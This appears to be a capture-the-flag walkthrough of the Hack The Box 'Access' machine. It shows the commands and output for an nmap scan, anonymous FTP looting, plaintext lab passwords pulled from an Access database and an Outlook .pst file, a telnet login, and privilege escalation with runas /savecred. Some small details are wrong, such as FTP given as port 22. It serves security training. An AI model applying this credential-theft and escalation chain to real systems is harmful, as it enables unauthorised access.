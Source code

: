 ## Access 

### Lab Details 

- Difficulty: Easy
- Type: Telnet, FTP, Priv Esc, Windows

#### Tasks
Q1:How many TCP ports are listening on Access?
- output from nmap `nmap -sT -T4 -vv -A -p- -oA Access 10.10.10.98`
```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  syn-ack Microsoft Windows XP telnetd (no more connections allowed)
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
```
Q2: What is the filename for the Microsoft Access database available on the host?
 - port 22 (ftp) is open, and based on the output from nmap anonymous login is allowed
 - login to target with anonymous and performed below
```
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> mget backup.mdb
```

Q3: What table in the database has user passwords?
- to interact with mdb file, tool like Mdbtools can be installed. 
```
# list tables in mdb
mdb-tables backup.mdb

# list tables 1 table name per line
mdb-tables backup.mdb -1

# output data in a table in json format
mdb-json backup.md auth_user
- table auth_user looks interesting below is the data
```
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Q4: What is the password for Access Control.zip?
- Access Control.zip is located in Engineers directory in target ftp server 
- to obtain the password we will need to use `zip2john` then crack it with `john`
- however we can also try using the password found in the mdb file to access it
- password = `access4u@security`

Q5: What is the password for the security user?
- we get Access Control.pst file which is used to stored Microsoft Outlook data
- install `pst-utls` tool to interact with `.pst` file
- we can use `readpst` to get the output 
```
# create a directory for the output to be stored
$: mkdir mail
# -o: output directory 
# -S: input pst file
$: readpst -o mail -S 'Access Control.pst'
$: tree mail
mail
└── Access Control
    └── 2
# password is in the file named '2'
```

Q6: To which open TCP port on Access can we connect to get a shell after logging in as security?
 - theres a open telnet port (23) we can try to connect to it 
 - `telnet target_ip 23`
 - once connected will prompt for username and password 
 - login with password found in the pst file

Q7: Submit the flag located on the security user's desktop.
 -  after gaining shell access run below to get the flag
 -  `type \Desktop\user.txt

Q8: What is the name of the executable called by the link file on the Public desktop?
 - there is a `.lnk` file located at `C:\Users\Public\Desktop`
 - to see the file that its executing by using `type` similar to `cat`
 - `type ZKAccess3.5 Security System.lnk`
```
PS C:\Users\Public\desktop> type "ZKAccess3.5 Security System.lnk"
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?▒M?:*wWindowsV1MV?System32???:?▒MV?*?System32▒X2P?:?
                                                                                                           runas.exe???:1??:1?*Yrunas.exe▒L-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
                                                                                                                                       ?wN?▒?]N?D.??Q???`?Xaccess?_???8{E?3
               O?j)?H???
                        )??[?_???8{E?3
                                      O?j)?H???
                                               )??[?    ??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500
```
 - the program thats executed is runas

Q9: What Windows command, when given the /list option, will print information about the stored credentials available to the current user?
 - the Windows command will print stored creds given /list flag is `cmdkeys` - read more on this check out `Windows Privilege Escalation -> Further Credential Theft` module from HTB Academy, goes in depth on this topic
  
Q10: What option can be given to the runas Windows command to have it use the saved credentials and run as that user? Include the leading /.
- flag `/savecred` will use the saved cred instead of user input

Q11: Submit the flag located on the administrator's desktop.
- to get the root flag we will need to contruct the runas command to as below
- running as Administrator to output the root.txt's content to another file 
```
PS C:\Users\Public\desktop> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator

# runas as Administrator to get output from root.txt on C:\Users\Administrator\Desktop and save it to root.txt
C:\Windows\System32\runas.exe /savecred /user:ACCESS\Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > root.txt"

# get the flag
cat C:\Windows\System32\root.txt
```


#### Lesson Learned
 - Ways to interact with .mdb files 
 - Ways to interact with .pst files 
